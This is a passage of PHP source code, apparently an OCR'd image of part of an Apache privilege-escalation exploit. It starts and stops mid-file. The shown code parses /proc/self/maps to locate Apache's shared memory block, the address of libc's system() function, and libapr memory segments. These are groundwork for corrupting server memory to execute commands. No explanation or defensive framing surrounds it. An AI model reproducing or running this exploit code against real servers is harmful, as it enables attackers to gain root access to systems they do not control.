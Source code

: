         die('Unable to find symbol ' . $symbol);
    }

    # Obtains the addresses of the shared memory block and some functions through 
    # /proc/self/maps
    # This is hacky as hell.
    function get_all_addresses()
    {
        $addresses = [];
        $data = file_get_contents('/proc/self/maps');
        $follows_shm = false;

        foreach(explode("\n", $data) as $line)
        {
            if(!isset($addresses['shm']) && strpos($line, '/dev/zero'))
            {
                $line = explode(' ', $line)[0];
                $bounds = array_map('hexdec', explode('-', $line));
            $msize = $bounds[1] - $bounds[0];
                if ($msize >= 0x10000 && $msize <= 0x16000)
                {
                    $addresses['shm'] = $bounds;
                    $follows_shm = true;
                }
            }
            if(
                preg_match('#(/[^\s]+libc-[0-9.]+.so[^\s]*)#', $line, $matches) &&
                strpos($line, 'r-xp')
            )
            {
                $offset = find_symbol($matches[1], 'system');
                $line = explode(' ', $line)[0];
                $line = hexdec(explode('-', $line)[0]);
                $addresses['system'] = $line + $offset;
            }
            if(
                strpos($line, 'libapr-1.so') &&
                strpos($line, 'r-xp')
            )
            {
                $line = explode(' ', $line)[0];
                $bounds = array_map('hexdec', explode('-', $line));
                $addresses['libaprX'] = $bounds;
            }
            if(
                strpos($line, 'libapr-1.so') &&
                strpos($line, 'r--p')
            )
            {
                $line = explode(' ', $line)[0];
                $bounds = array_map('hexdec', explode('-', $line));
                $addresses['libaprR'] = $bounds;
            }
            # Apache's memory block is between the SHM and ld.so